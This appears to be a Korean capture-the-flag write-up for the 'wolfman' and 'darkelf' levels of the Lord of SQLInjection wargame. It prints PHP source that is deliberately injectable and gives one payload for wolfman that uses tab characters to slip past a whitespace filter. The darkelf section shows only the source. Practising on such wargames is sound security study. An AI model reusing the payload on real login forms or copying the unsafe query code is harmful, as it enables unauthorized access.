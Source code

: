 -----

# LOS: wolfman

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 공백의 존재가 없어야 하는 문제이다.

<br>


## writeup

공백 입력이 제한되었기에 tab 기호를 사용해보자.

tab 기호는 %09를 통해 나타낼 수 있다.

```
pw='%09or%09id='admin
```

![image-20220608161827683](../img/image-20220608161827683.png)

<br><br><br>

-----

# LOS: darkelf

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
